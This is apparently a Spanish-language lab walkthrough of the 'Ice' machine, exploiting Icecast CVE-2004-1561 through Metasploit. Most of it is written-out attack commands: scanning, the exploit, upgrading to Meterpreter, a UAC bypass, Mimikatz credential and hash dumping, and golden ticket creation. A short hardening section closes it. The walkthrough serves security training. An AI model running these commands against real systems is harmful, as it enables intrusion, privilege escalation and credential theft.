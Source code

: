 # **Explotación de Máquina Ice (CVE-2004-1561 - Icecast Header Overwrite)**

![Nivel: Intermedio](https://img.shields.io/badge/Nivel-Intermedio-orange) ![CVE-2004-1561: Crítico](https://img.shields.io/badge/CVE--2004--1561-Cr%C3%ADtico-red)

## **Descripción**
Este repositorio documenta la explotación completa de una máquina Windows vulnerable a través de:
1. Vulnerabilidad en Icecast 2.0.0-2.0.1 (CVE-2004-1561)
2. Escalada a Meterpreter
3. Post-explotación avanzada con Mimikatz

**Tiempo estimado**: 30-45 minutos  
**Dificultad**: Intermedia  
**Sistema operativo**: Windows

## **Índice**
1. [Reconocimiento](#reconocimiento)
2. [Explotación](#explotación)
3. [Post-Explotación](#post-explotación)
4. [Conclusión](#conclusión)

## **Reconocimiento**

### 1. Escaneo Inicial
```bash
nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 10.10.22.53 -oN Ice
```
**Hallazgos clave**:
- 8000/tcp : Icecast 2.0.0-2.0.1 (vulnerable a CVE-2004-1561)

## **Explotación**

### 2. Configuración de Metasploit
```bash
msfconsole
use exploit/windows/http/icecast_header
set RHOSTS 10.10.22.53
set RPORT 8000
exploit
```

### 3. Mejora a Meterpreter
```msf
background
use post/multi/manage/shell_to_meterpreter
set SESSION 1
run
sessions -i 2
```

## **Post-Explotación**

### 4. Escalada de Privilegios
```msf
background
use multi/recon/local_exploit_suggester
set SESSION 2
run
```
Ejecutar exploit sugerido (ej: `windows/local/bypassuac_eventvwr`)

### 5. Extracción de Credenciales
```meterpreter
load kiwi
creds_all
hashdump
```

### 6. Técnicas Avanzadas
**Golden Ticket Attack**:
```meterpreter
golden_ticket_create -u Administrator -d dominio.local -k [KRBTGT_HASH] -t C:\\golden.tck
```

**Captura remota**:
```meterpreter
screenshare
```

## **Conclusión**

### Vulnerabilidades Críticas
1. Versión vulnerable de Icecast (CVE-2004-1561)
2. Configuración insegura de privilegios
3. Hashes NTLM accesibles

### Hardening Recomendado
- Actualizar Icecast a última versión
- Implementar LSA Protection
- Restringir privilegios de servicio


> 🔐 **Aviso Legal**: Solo para uso en entornos con permiso explícito.

---

**Herramientas utilizadas**:
- Nmap
- Metasploit Framework
- Mimikatz (Kiwi)

**Referencias**:
- [CVE-2004-1561 Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-1561)
- [Icecast Security Advisories](https://icecast.org/security/)

